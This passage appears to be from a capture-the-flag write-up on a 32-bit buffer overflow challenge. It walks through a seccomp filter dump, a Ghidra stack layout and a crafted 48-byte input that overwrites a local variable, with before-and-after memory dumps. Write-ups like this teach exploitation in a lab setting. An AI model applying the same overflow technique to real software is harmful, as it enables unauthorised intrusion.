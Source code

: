 So, two things to take away:

1. We get forked and seccomp'd.
2. We need to create a bogus file `passwds`.

If we `touch passwds`, the segfault goes away, now we can get to work, but what about seccomp?

```bash
# seccomp-tools dump ./bof
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0x40000003  if (A != ARCH_I386) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x06 0x00 0x00000003  if (A == read) goto 0010
 0004: 0x15 0x05 0x00 0x00000004  if (A == write) goto 0010
 0005: 0x15 0x04 0x00 0x000000c5  if (A == fstat64) goto 0010
 0006: 0x15 0x03 0x00 0x0000002d  if (A == brk) goto 0010
 0007: 0x15 0x02 0x00 0x00000001  if (A == exit) goto 0010
 0008: 0x15 0x01 0x00 0x000000fc  if (A == exit_group) goto 0010
 0009: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

That's pretty grim.  Best if we just stick to the advice in the source (which, BTW, will have the initial process print the flag--this is a pretty cool challenge).

Since we're already in Ghidra, might as well get the `vuln` stack diagram:

```
undefined         AL:1               <RETURN>
undefined4        Stack[0x0]:4       local_res0
undefined4        Stack[-0x8]:4      local_8
int               Stack[-0x10]:4     secret
char[16]          Stack[-0x20]:16    padding
char[32]          Stack[-0x40]:32    buff
```

To overwrite `secret` with `flag`, we need to send `0x40 - 0x10` (48) bytes followed by `flag`.


### Give it a run (again)

```bash
# ./bof
Do you want color in the visualization? (Y/n) n

0xff8bed2c | 00 00 00 00 00 00 00 00 |
0xff8bed34 | 00 00 00 00 00 00 00 00 |
0xff8bed3c | 00 00 00 00 00 00 00 00 |
0xff8bed44 | 00 00 00 00 00 00 00 00 |
0xff8bed4c | ff ff ff ff ff ff ff ff |
0xff8bed54 | ff ff ff ff ff ff ff ff |
0xff8bed5c | ef be ad de 5c 9f 5f 56 |
0xff8bed64 | 5c 9f 5f 56 78 ed 8b ff |
0xff8bed6c | 99 65 5f 56 90 ed 8b ff |
0xff8bed74 | 00 00 00 00 00 00 00 00 |
Input some text: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAflag

0xff8bed2c | 41 41 41 41 41 41 41 41 |
0xff8bed34 | 41 41 41 41 41 41 41 41 |
0xff8bed3c | 41 41 41 41 41 41 41 41 |
0xff8bed44 | 41 41 41 41 41 41 41 41 |
0xff8bed4c | 41 41 41 41 41 41 41 41 |
0xff8bed54 | 41 41 41 41 41 41 41 41 |
0xff8bed5c | 66 6c 61 67 00 9f 5f 56 |
0xff8bed64 | 5c 9f 5f 56 78 ed 8b ff |
0xff8bed6c | 99 65 5f 56 90 ed 8b ff |
```